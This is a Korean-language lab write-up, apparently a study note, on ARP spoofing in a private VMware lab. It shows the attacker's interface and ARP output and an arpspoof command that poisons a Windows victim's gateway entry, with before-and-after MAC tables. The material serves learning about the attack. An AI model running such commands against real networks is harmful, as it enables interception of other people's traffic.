


# ARP Spoofing

## 개요

- MAC Address를 속여 LAN에서의 통신 흐름을 왜곡시키는 기법을 말한다.
- ARP 테이블이 바뀌면 경고를 보내는 툴을 통해 어느 정도는 예방할 수 있지만 근본적으로 TCP/IP 프로토콜 자체의 문제이기 때문에 ARP Spoofing에 대한 보안 대책은 없다.

### ARP 테이블
- IP주소와 해당 주소에 대한 MAC Address 목록을 말한다.
- 'cmd'창에서 'arp -a' 를 통해서 확인할 수 있다.

## 실습 1. 기본 실습
### 🖥️ 실습 환경(NAT)
```
- Attacker(Kali)        192.168.10.134 / c / 192.168.10.2 / 192.168.10.2
- Victim(Windows 10)    192.168.10.130 / c / 192.168.10.2 / 192.168.10.2
``` 

```
[samadal@kali ~]$ sudo ip link show eth0
[sudo] password for samadal:
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    link/ether 00:0c:29:b2:04:58 brd ff:ff:ff:ff:ff:ff

[samadal@kali ~]$ sudo arp -a
_gateway (192.168.10.2) at 00:50:56:e0:28:a3 [ether] on eth0
? (192.168.10.1) at 00:50:56:c0:00:08 [ether] on eth0

[samadal@kali ~]$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.10.134  netmask 255.255.255.0  broadcast 192.168.10.255
        inet6 fe80::20c:29ff:feb2:458  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b2:04:58  txqueuelen 1000  (Ethernet)
        RX packets 186  bytes 29318 (28.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 149  bytes 20777 (20.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:50:56:e0:28:a3

```  
## ARP Spoofing을 이용한 MAC Address 변경

```
sudo dsniff
```
```
sudo arpspoof -i eth0 -t 192.168.10.130 192.168.10.2
```
- 명령어 실행 전
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:50:56:e0:28:a3
```

- 명령어 실행 후
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:0c:29:b2:04:58
```


## 결론
- 공격을 하고 있는 동안만 MAC Address가 변경된다.
